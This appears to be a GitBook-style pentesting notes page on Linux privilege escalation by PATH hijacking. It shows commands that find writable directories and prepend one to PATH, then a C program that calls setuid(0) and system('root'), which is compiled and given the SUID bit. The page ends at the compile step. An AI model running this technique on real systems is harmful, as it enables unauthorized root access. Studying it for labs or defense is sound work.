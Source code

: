 <pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
#Example results
<strong>etc/udev  home/user  run/dbus  snap/core  sys/fs  tmp  usr/lib  var/crash
</strong>
echo $PATH
#Example results
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
</code></pre>

{% hint style="info" %}
* We note there is a home folder where we can write
* In the case we haven't found nothing, we have to write to `/tmp`
{% endhint %}

***

* Add folder to _PATH_ and go to this location

{% code overflow="wrap" lineNumbers="true" %}
```bash
export PATH=/home/user:$PATH
echo $PATH   #To check it was added
cd /home/user
```
{% endcode %}

***

* Write simple script in C to search for an executable

{% code title="path.c " overflow="wrap" lineNumbers="true" %}
```c
#include <unistd.h>

void main() {
    setgid(0);
    setuid(0);
    system("root");
}
```
{% endcode %}

{% hint style="info" %}
System will search for an executable called _root,_ this is an arbitrary name
{% endhint %}

***

* Compile the script and give it especial SUID Permissions

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc path.c -o path -w
chmod u+s path
ls -l     #To check it has s permission on user
```
{% endcode %}
